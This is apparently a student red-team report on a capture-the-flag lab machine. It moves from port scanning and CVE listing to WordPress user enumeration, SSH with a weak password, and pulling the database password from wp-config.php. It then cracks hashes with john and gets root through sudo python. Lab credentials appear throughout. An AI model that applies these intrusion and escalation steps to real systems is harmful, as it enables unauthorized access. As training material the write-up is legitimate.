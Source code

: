 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap 192.168.1.0/24
```
![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/nmap%20cider%20scan.png)

<br>

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/tcp open ssh (service) OpenSSH 6.7p1 Debian 5+deb8u4
  - Port 80/tcp open http (service) Apache httpd 2.4.10 ((Debian))
  - Port 111/tcp open rpcbind (service) 2-4 (RPC #100000)
  - Port 139/tcp open netbios-ssn (services) Samba smbd 3.X - 4.X
  - Port 445/tcp open netbios-ssn (services) Samba smbd 3.X - 4.X


The following vulnerabilities were identified on Target 1:
- Target 1
  - CVE-2021-28041 open SSH (Severity: High)
  - CVE-2017-15710 Apache httpd 2.4.10 (Severity: High)
  - CVE-2017-8779 exploit on open rpcbind port could lead to remote DoS (Severity: High)
  - CVE-2017-7494 Samba NetBIOS (Severity: Critical)


![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/nmap%20-sV%20192.168.1.110.png)

<br>

### Critical Vulnerabilities:
The following vulnerabilities were identified on Target 1:
 
 - Network Mapping
   - nmap scanned for open ports on a designated IP address
   - Attacker can devise an attack based on open ports
 
 - Unsalted Password Hash
   - wpscan is used to gain username information 
   - Attackers gain access the web server

- Weak User Password
  - A user account had a weak password, which was found via guessing
  - Attacker is able to ssh into web server with weak username and password

- Access MySQL Database
  - Attackers discover a file containing MySQL database credentials
  - Attacker can gain access to MySQL database with acquired credentials 

- MySQL Password Extraction
  - Password hashes for user accounts were found by browsing through MySQL tables
  - Attacker can extract password hashes and crack them via john the ripper

- Misconfigured User Privilege Escalation
  - Steven’s account has sudo privileges for python
  - Steven’s Python privileges used to escalate to root   
 
### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

- Enumerated WordPress site Users with WPScan to obtain username michael, used SSH to get user shell
  - Command used: wpscan --url http://192.168.1.110/wordpress -eu

![Screenshot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/wpscan%20-eu.png)
![Screenshot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/wpscan%20-eu%202.png)

<br>

- Visited the IP address of the target: 192.168.1.110 over HTTP port 80

![Screenshot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/192.168.1.110%20browswer.png)

<br>

- Target 1
  - `flag1.txt`: b9bbcb33e11b80be759c4e844862482d
   - **Exploit Used**
   
    - ssh into Michael's account and look through files in /var/www
    - Command: ssh michael@192.168.1.110
    - The username and password for Michael's account is identical: michael
    - Command: cd ../../var/www
    - Command: ls 
    - Command: grep -RE flag html
     
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/var:www%20and%20ls.png)
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/grep%20command%20flag%201.png)
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/flag1.png)

<br>


  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c
   - **Exploit Used**
     - Command: ssh michael@192.168.1.110 
     - The username and password for Michael's account is identical: michael
     - Command: locate *flag*
     - Command: cat /var/www/flag2.txt
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/locate%20*flag*.png)
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/flag2.txt.png) 

<br>


  - `flag3.txt`: afc01ab56b50591e7dccf93122770cd2
   - **Exploit Used**
     - Continued using michael shell to find the MySQL database password, logged into MySQL database, and found Flag 3 in wp_posts table.
     - Command: ls /var/www/html/wordpress/
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/ls%20wordpress:.png)
  
<br>

   - Command: cat /var/www/html/wordpress/wp-config.php
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/DB%20Username%20%26%20Password.png)

<br>

   - Used the credentials to log into MySQL and dump WordPress user password hashes.
    
     - DB_NAME: wordpress
     - DB_USER: root
     - DB_PASSWORD: R@v3nSecurity
     - Command: mysql -u root -p
 
 
 ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/mysql%20-u%20root%20-p%20command.png)

<br>

   - Search MySQL database for Flag 3 and Wordpress user password hashes:

     - Flag 3 found in wp_posts.
     - Password hashes found in wp_users.
     - Command: show databases;
     - Command: use wordpress;
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/show%20db%20and%20Use%20wordpress.png)
  
<br>

   - Command: show tables;
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/show%20tables%3B.png)
  
<br>

   - Command: SELECT * FROM wp_posts;	
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/SELECT%20*%20FROM%20wp_posts%201.png)
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/SELECT%20*%20FROM%20wp_posts%202.png)

<br>

   - Screenshot of Wordpress user password hashes:
    
     - Command: SELECT * FROM wp_users;
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/SELECT%20*%20FROM%20wp_users.png)

<br>

  - `flag4.txt`: 715dea6c055b9fe3337544932f2941ce
   - **Exploit Used**
     - Used john to crack the password hash obtained from MySQL database, secured a new user shell as Steven, escalated to root.
     - Cracking the hashed password using john.
     - Copied password hash from MySQL into ~/root/wp_hashes.txt and cracked with john to discover Steven’s password: pink84.
     - Command: john --show wp_hashes.txt


![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/john%20command.png)

<br>

   - Secure a user shell as the user whose password you cracked.
    
     - Command: ssh steven@192.168.1.110
     - Password: pink84
     - Escalating to root:
     - Command: sudo -l  
 
 
 ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/sudo%20-l.png)

<br>
   
   - Command: sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/sudo%20python%20-c%20'import%20pty%3Bpty.spawn(%22:bin:bash%22)'.png)

<br>

   - Search for the root directory for Flag 4.
   
     - Command: cd /root/
     - Command: ls
     - Command: cat flag4.txt


![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/cat%20flag4.txt%201.png)
![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/cat%20flag4.txt%202.png)

